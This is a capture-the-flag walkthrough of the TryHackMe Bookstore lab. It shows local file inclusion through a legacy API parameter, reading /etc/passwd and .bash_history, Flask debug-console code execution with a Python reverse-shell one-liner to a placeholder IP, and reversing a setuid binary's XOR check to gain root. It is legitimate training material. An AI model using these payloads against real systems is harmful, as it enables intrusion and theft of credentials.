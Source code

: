 ```yaml
---
layout: post
title: "Tryhackme BookStore Walkthrough - API & Reverse Engineering"
date: 2025-09-03
categories: [ctf, tryhackme, walkthrough]
image: https://miro.medium.com/v2/resize:fit:720/format:webp/1*mZunNj45WXui4CSwhm-Buw.jpeg
permalink: /blog/BookStore-Tryhackme
locked: false
---
```


<div style="border-left: 4px solid #00d4aa; background: #0f172a; padding: 20px; margin: 20px 0; border-radius: 0 8px 8px 0;">
  <div style="display: flex; justify-content: center; margin-bottom: 15px;">
    <img src="https://assets.tryhackme.com/img/favicon.png" width="48" height="48" alt="TryHackMe" style="border: none; outline: none; box-shadow: none;">
  </div>
  
  <div style="display: flex; align-items: center; gap: 15px; margin-bottom: 15px; justify-content: center;">
    <h3 style="margin: 0; color: #f1f5f9;">Bookstore</h3>
    <div style="display: flex; align-items: center; gap: 5px;">
      <span style="color: #ff8c00; font-weight: bold;">▁▃▅</span>
      <span style="background: #ff8c00; color: white; padding: 3px 8px; border-radius: 12px; font-size: 12px; font-weight: bold;">MEDIUM</span>
    </div>
  </div>
  
  <p style="margin: 10px 0; color: #cbd5e1;">
    <strong>Objective:</strong> understand how a vulnerable API can be exploited
  </p>
  
  <div style="display: flex; gap: 20px; margin-top: 15px;">
    <span style="color: white; padding: 8px 16px; font-weight: bold;">Web Exploitation</span>
    <a href="https://tryhackme.com/room/bookstoreoc" target="_blank" style="background: #dc2626; color: white; padding: 8px 16px; border-radius: 6px; text-decoration: none; font-weight: bold;">🔗 Start Challenge →</a>
  </div>
</div>

---

# Part 1

I accessed the website using its IP address without specifying any port. Once we accessed the website, we found something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dZz6r0GpIlvLJyOO_NtjrA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

I interacted with every possible endpoint on this site. There were different interaction points, such as home.html and login.html, but login.html didn’t do anything.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*RL1nSp0JsykNSXR2OVc45w.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ZK5RpX4w0e9vyi9ECAhSXA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Once I’ve run through every request, I fire up Postman to check what’s really going on under the hood

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ZSQjBSilIAyhEHP3tw1imw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*7zWbtkQ_rFrG6e5Y6UvZEA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Burp Suite showed us all the requests. One stood out: `/assets/js/api.js`, which dropped the following:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*RzJ3vGZrJ4OMpIhyBd2ZSQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*5vWo0kXEvRSWgY9NO2Fd4Q.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

We can send a request like this: 

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*qBPoafCs51hbE7NgEVHTFQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

But based on api.js, the most important part is this specific comment. `//the previous version of the api had a paramter which lead to local file inclusion vulnerability, glad we now have the new version which is secure.`

Let’s change `/api/v2/resources/books?id=1` to `/api/v1/resources/books?id=1`

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*UQ6kmLhYWDTsYiYdGxGq-A.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

We didn’t get any errors, which means the previous version of this API is still present, and we can access its vulnerability.

Based on the response from `/api/v2/resources/books/random4`, I tried using different parameters, but none of them returned `/etc/passwd` , `author, id, published ,show`


I brute-forced new parameters but kept the value set to `../../../etc/passwd`

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*L_r725GgPuEMnCaPR6km7Q.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Bingo, we found an endpoint called `show`.

<div class="code-block-container">
  <span class="code-lang-tag">/etc/passwd</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
</code></pre>
</div>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*kuHPsCmNFv-3ovS0DWQMSA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

From the `/etc/passwd` response, we found a user sid, which could allow us to read the flag. Based on the challenge question, let’s use `/home/sid/user.txt`

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ci6allc3uiPmwu41l8iXSw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

# Part 2

At this stage, I began enumerating further, starting with SSH `../../../../home/sid/.ssh/id_rsa`, But I got a 500 Internal Server Error, which I believe is similar to a file not found

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ijcpwpwiJ8humqJs0VtAcg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Then I made a request to `.bash_history`, and it returned some juicy data:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*m_LR7g9smdG9H2ex6pkjVQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

It returned a debug pin belonging to the Flask localhost console. Let’s make a request to this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*GRnY0Eg9h8UQDGISAJjFgA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Using the pin from `.bash_history`, we accessed the Flask debug console. Since it allows Python execution, we leveraged it to spawn a reverse shell. [Understanding Reverse Shells – Invicti](https://www.invicti.com/blog/web-security/understanding-reverse-shells/)

<div class="code-block-container">
  <span class="code-lang-tag">Python Debug</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
import os
os.system("python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"MY-IP",1111));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call([\"/bin/sh\",\"-i\"])'")
</code></pre>
</div>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ExFkZoJzL-edrtKm7mTDxQ.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

While searching for the root flag, we found a setuid binary called `try-harder`. Analyzing it with strings revealed it prompts for a password, and on success, spawns `/bin/bash -p` giving us root access.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*1X_NvLYdMo22DM4BNXCurg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*ChcQNzQ9y6FvU2W5O5_qKw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

I downloaded the file for local analysis in Ghidra, which revealed the following code:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*xSMPDrIP8QUslHRDkxK5fw.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

<div class="code-block-container">
  <span class="code-lang-tag">Ghidra</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
void main(void)

{
  long in_FS_OFFSET;
  uint local_1c;
  uint local_18;
  uint local_14;
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  setuid(0);
  local_18 = 0x5db3;
  puts("What\'s The Magic Number?!");
  __isoc99_scanf(&DAT_001008ee,&local_1c);
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
</code></pre>
</div>

<div class="code-block-container">
  <span class="code-lang-tag">Ghidra</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
  local_14 = local_1c ^ 0x1116 ^ local_18;
  if (local_14 == 0x5dcd21f4) {
    system("/bin/bash -p");
  }
  else {
    puts("Incorrect Try Harder");
  }
</code></pre>
</div>

The program takes your input `(local_1c)` and XORs it with two constants: `0x1116` and `local_18 (0x5db3)`.

If the result equals `0x5dcd21f4`, you win.

<div class="code-block-container">
  <span class="code-lang-tag">Ghidra</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-shell">
$ python 
Python 3.13.5 (main, Jun 25 2025, 18:55:22) [GCC 14.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> magic = 0x5dcd21f4 ^ 0x1116 ^ 0x5db3
>>> print(hex(magic), magic)
0x5dcd6d51 1573743953
</code></pre>
</div>

`0x5dcd21f4` -> the target value (what the program checks against).

^ `0x1116` ^ `0x5db3` -> you XOR it back with the constants used in the C code.

XOR is its own inverse, so this neatly recovers the original user_input.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*PNSAqUxRZMvYRdwM9MCivg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

This gave us a root shell